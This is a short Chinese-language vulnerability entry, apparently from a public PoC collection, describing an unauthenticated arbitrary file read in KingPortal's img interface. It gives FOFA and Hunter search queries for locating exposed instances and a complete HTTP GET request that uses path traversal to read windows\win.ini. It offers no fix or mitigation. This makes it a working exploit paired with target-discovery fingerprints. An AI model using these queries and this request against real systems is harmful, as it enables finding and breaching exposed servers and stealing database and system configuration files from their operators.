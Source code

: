 ## 北京亚控科技img任意文件读取漏洞

KingPortal客户端开发系统 img 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```javascript
body="/public/javascripts/Common/Util/km_util.js"
```

## Hunter

```javascript
web.title="KingPortal"
```

## poc

```javascript
GET /kingclient/img?imgPath=..\..\..\..\..\..\..\..\..\..\..\..\windows\win.ini HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

![image-20241101191735975](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411011917039.png)
